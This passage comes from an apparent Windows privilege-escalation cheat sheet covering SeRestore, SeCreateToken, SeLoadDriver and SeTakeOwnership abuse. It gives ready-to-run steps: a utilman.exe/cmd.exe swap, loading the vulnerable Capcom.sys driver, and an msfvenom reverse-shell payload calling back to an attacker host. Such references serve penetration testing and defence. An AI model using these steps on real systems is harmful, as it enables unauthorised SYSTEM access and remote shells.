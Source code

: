 ### Exploitation path
1. Launch PowerShell/ISE with the SeRestore privilege present.  
2. Enable the privilege with [Enable-SeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)).  
3. Rename utilman.exe to utilman.old  
4. Rename cmd.exe to utilman.exe  
5. Lock the console and press Win+U

## SeCreateToken
>SeCreateTokenPrivilege is a powerful permission, especially useful when a user possesses the ability to impersonate tokens, but also in the absence of SeImpersonatePrivilege. This capability hinges on the ability to impersonate a token that represents the same user and whose integrity level does not exceed that of the current process.
>Tool : https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeCreateTokenPrivilegePoC

## SeLoadDriver
>This privilege allows to **load and unload device drivers** with the creation of a registry entry with specific values for `ImagePath` and `Type`. Since direct write access to `HKLM` (HKEY_LOCAL_MACHINE) is restricted, `HKCU` (HKEY_CURRENT_USER) must be utilized instead. However, to make `HKCU` recognizable to the kernel for driver configuration, a specific path must be followed.
>This path is `\Registry\User\<RID>\System\CurrentControlSet\Services\DriverName`, where `<RID>` is the Relative Identifier of the current user. Inside `HKCU`, this entire path must be created, and two values need to be set:
>- `ImagePath`, which is the path to the binary to be executed
>- `Type`, with a value of `SERVICE_KERNEL_DRIVER` (`0x00000001`).

### Exploitation path
Upload the driver [eoploaddriver_x64.exe](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/eoploaddriver_x64.exe), [Capcom.sys file](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/Capcom.sys), [ExploitCapcom.exe](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/ExploitCapcom.exe) on traget machine under writable directory.
```powershell
# For the Capcom driver
# Load it
sc create Capcom type= kernel binPath= C:\Users\user\Desktop\Capcom.sys
sc start Capcom

.\ExploitCapcom.exe LOAD C:\\Temp\\Capcom.sys
.\ExploitCapcom.exe EXPLOIT whoami

# Generate revshell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f exe > shell.exe
.\ExploitCapcom.exe EXPLOIT shell.exe
```

## SeTakeOwnership
>The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges. For example, search for a service running as SYSTEM and take ownership of the service’s executable.
